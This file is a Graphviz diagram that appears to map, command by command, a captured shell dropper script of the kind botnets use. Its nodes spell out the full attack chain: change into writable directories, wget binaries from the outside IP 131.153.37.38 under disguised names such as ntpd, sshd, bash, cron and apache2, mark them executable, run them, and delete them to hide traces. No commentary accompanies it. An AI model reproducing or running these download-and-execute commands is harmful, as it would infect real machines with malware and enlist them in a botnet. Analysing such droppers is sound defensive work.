 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://131.153.37.38/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://131.153.37.38/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://131.153.37.38/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://131.153.37.38/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://131.153.37.38/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://131.153.37.38/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://131.153.37.38/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://131.153.37.38/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://131.153.37.38/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://131.153.37.38/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://131.153.37.38/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://131.153.37.38/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 213 [label=";,"];
}
